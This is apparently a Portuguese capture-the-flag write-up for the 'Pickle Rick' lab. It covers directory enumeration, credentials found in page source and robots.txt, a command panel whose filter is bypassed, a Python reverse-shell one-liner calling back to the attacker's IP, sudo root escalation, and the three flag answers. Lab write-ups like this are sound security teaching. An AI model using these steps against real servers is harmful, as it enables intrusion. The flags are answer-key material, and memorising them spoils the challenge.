# **_Easy - Pickle Rick CTF_**
![](Rick_and_Morty_CTF.jpg)
_This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle._

## _**Enumeração**_
Primeiro, vamos começar abrindo o _web server_ com o IP fornecido  
E logo em seguida, vamos inspecionar o código da página  
Logo de cara encontramos uma pista
_Note to self, remember username!_ <mark>Username: R1ckRul3s</mark>

> ``` bash
> gobuster dir --url [ip_address] -w ../seclists/Disocvery/Web-Content/common.txt
> ```

Temos algumas informações interessantes descobertas após esse scan
* **/.htpasswd (cod.403)**
* **/.htaccess (cod.403)**
* **/.hta (cod.403)**
* **/access (cod.301)**
* **/index.html (cod.200)**
* **/robots.txt (cod.200)**
* **/server-status (cod.403)**

Podemos excluir a procura em alguns destes diretórios, aqueles que tem retorno de código 403  
Vamos investigar <mark>/assets</mark>  

![](assets.jpg)  
Suspeita-se de que algo possa estar obfuscado em algum destes arquivos  
Vamos continuar  

Investigando <mark>/robots.txt</mark>  
Temos apenas uma simples palavra, talvez uma senha: <mark>Wubbalubbadubdub</mark>

Não conhecemos nenhuma página de login, porém, podemos tentar descobrir alguma com (novamente) Gobuster
> ``` bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/Logins.fuzz.txt
> ```

Temos como resultado o seguinte:
* **/login.php (cod.200)**
* **/?page=admin.auth.inc (cod.200)**
* **/?page=auth.inc (cod.200)**
* **/?page=auth.inc.php (cod.200)**

Vamos investigar <mark>/login.php</mark>  
![](login.php.jpg)

Usando:
* **user:** <mark>R1ckRul3s</mark>
* **password:** <mark>ubbalubbadubdub</mark>

E temos login  
Logo de cara, nos deparamos com um painel que aceita comandos   
![](command_pannel.jpg)

Vamos tentar o comando ```ls```
* **Sup3rS3cretPickl3Ingred.txt**
* **clue.txt**
* **denied.php**
* **portal.php**
* **robots.txt**

Me parece que algum dos ingredientes está no arquivo <mark>Sup3rS3cretPickl3Ingred.txt</mark>  
Vamos puxar com o comando ```cat```  
Bloqueado!    

Vamos tentar com o comando ```sort```  
Temos retorno do que parece ser um ingrediente e também uma flag!  

> _**What is the first ingredient that Rick needs?**_ <mark>_mr. meeseek hair_</mark>  

Vamos continuar nossa investigação em <mark>/portal.php</mark>  
Verificando o código da página, encontramos como comentário uma string
> Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

Essa string parece ser <mark>base64</mark>  
Vamos decodificar com o comando ``` echo ```  
> ```bash 
> echo 'Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==' | base64 -d
> ```

Ainda nada  
Vamos tentar mais algumas vezes  
> ```bash
> echo 'Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==' | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
> ```

Resultado: <mark>rabbit hole</mark>  
Parece que não nos levou a nada  

Por termos disponível um painel que aceita linha de comando, vamos tentar obter uma _shell_  
Ao tentarmos o comando ``` netcat ``` vemos que ele foi desabilitado  

Outra possibilidade é tentar executar algum comando (ex: python) para obtermos um _reverse shell_  
Executando ``` python3"('hello')" ```, temos retorno! Logo, comandos python são executados  
Vamos tentar o seguinte  
Em nossa máquina Kali:
> ``` bash
> nc -lnvp [port]
> ```  
Na página de comandos:
> ``` bash
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[vpn_ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```

<mark>Obtemos um shell reverso!</mark>
![](shell.jpg)

Dentro da shell, queremos obter acesso _**root**_  
Para isso, podemos fazer o seguinte:
O comando ``` sudo -l ``` é usado em sistemas Linux e Unix para listas os **_comandos que o usuário atual tem permissão para executar com privilégios de superusuário através de ``` sudo ```_**  
Esse comando é uma maneira útil de verificar quais comandos podem ser executados como ``` sudo ``` sem precisar de senha ou permissões limitadas  
![](priv_esc.jpg)  

Podemos obter acesso _root_ com o seguinte comando
> ``` bash
> sudo bash
> ```

Após obter acesso root, navegamos para o seu diretório ~  
Dando um ```ls```, encontra-se o terceiro ingrediente dentro de um arquivo _.txt_

> _**What is the last and final ingredient?**_ <mark>fleeb juice</mark>

Procurando em outros diretórios, como /home, encontramos o diretório rick  
Dentro, um arquivo, _second ingredient_  
Basta um ```cat *``` para descobrir  
> _**What is the second ingredient in Rick’s potion?**_ <mark>1 jerry tear</mark>
